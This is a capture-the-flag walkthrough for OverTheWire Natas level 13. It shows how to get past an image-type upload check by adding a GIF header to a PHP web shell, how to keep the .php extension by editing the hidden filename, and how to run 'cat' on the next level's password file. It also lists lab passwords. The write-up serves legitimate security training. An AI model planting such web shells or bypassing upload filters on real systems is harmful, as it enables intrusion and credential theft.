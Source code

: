 # [Level 12 to 13](https://overthewire.org/wargames/natas/natas13.html) - Exploit file upload: GIF Header

- Login
```
URL: http://natas13.natas.labs.overthewire.org
Username: natas13
Password: trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```
- Exercise:
![image](https://github.com/user-attachments/assets/fb568b6c-a4dd-4674-80a0-4224ddceb4a0)
![image](https://github.com/user-attachments/assets/4ab9e2cb-459a-4fb5-8db5-7d4ba7773d02)

- Background:
  - Uses `exif_imagetype()` to check if the uploaded file is an image or not
  - This PHP function reads the first few bytes of a file to determine the file type
    - Won’t be fooled by just changing the file extension
    - If the file does not begin with the header bytes that indicate it actually is an image file, it will be rejected
    - GIF start with this headers: `GIF87a`
- Solution:
  - Save as file.php: Prepend "GIF87a" to the start of the webshell
  ```php
  GIF87a<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
  ```
  - Upload the file:
    - Website tries to change the file extension
    - To keep `.php`, open the Dev Tools and change the hidden file name
  ![image](https://github.com/user-attachments/assets/fc6dcc16-8861-4e41-8c8d-5ee8f5846fa3)
  - Click Upload file:
  ![image](https://github.com/user-attachments/assets/d5e520aa-77ef-4337-89f7-98b81bac8afc)
  ![image](https://github.com/user-attachments/assets/a811ae7c-046b-4e0c-b144-30c8fa48b21f)
  - Getting an error because it's expecting a query value and isn't getting one, provide `?e=ls` to see other webshells
  - Supply an input of `?e=cat%20/etc/natas_webpass/natas14` to the webshell to get the flag: `http://natas13.natas.labs.overthewire.org/upload/oazgfldi85.php?e=cat%20/etc/natas_webpass/natas14`
  ![image](https://github.com/user-attachments/assets/4ce00eaa-62c0-4a50-957c-548ad0f41829)
- Password: `z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ`
